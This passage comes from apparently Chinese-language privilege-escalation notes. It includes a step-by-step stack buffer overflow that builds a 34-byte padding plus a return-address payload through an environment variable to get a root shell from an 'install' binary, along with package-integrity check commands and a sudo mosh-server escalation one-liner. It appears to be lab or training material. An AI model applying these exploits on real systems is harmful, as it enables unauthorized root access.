 - ​**​缓冲区结构​**​：  
    栈中`buff`分配30字节，其后是保存的`ebp`（4字节）和函数返回地址（4字节）。因此需构造 ​**​34字节填充数据​**​ 覆盖到返回地址位置
#### 步骤2：获取`spawn_shell()`地址

1. ​**​通过调试工具获取​**​：  
    使用`gdb`或`objdump`查看函数地址：
    ```bash
    gdb install.c
    (gdb) disassemble spawn_shell  # 获取函数地址，如0x08048456
    ```
2. ​**​地址格式转换​**​：  
    需将地址转为小端序（Little-Endian）。例如地址`0x08048456`对应的payload为`\x56\x84\x04\x08`。
#### 步骤3：构造恶意环境变量

1. ​**​生成payload​**​：  
    构造34字节填充数据 + `spawn_shell()`地址：
    ```bash
    export INSTALLED=$(python -c 'print "A"*34 + "\x56\x84\x04\x08"')
    ```
2. ​**​触发漏洞​**​：  
    运行程序，环境变量溢出覆盖返回地址：

    ```bash
    ./install
    ```
    程序将执行`spawn_shell()`，获得root权限的bash shell。

## 6.25 核查已安装软件包文件完整性
 Debian 系（Debian、Ubuntu 等）
```sh
dpkg -V
```

Red Hat 系（Red Hat、CentOS、Fedora 等）
```sh
rpm -Va
```

Arch Linux
```
pacman -Qkk
```

Gentoo
```sh
qlist -I | xargs equery check
```
## 6.98 其他提权经验记录

### (ALL) NOPASSWD: /usr/bin/mosh-server
```
mosh --server="sudo /usr/bin/mosh-server" localhost
```
### (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
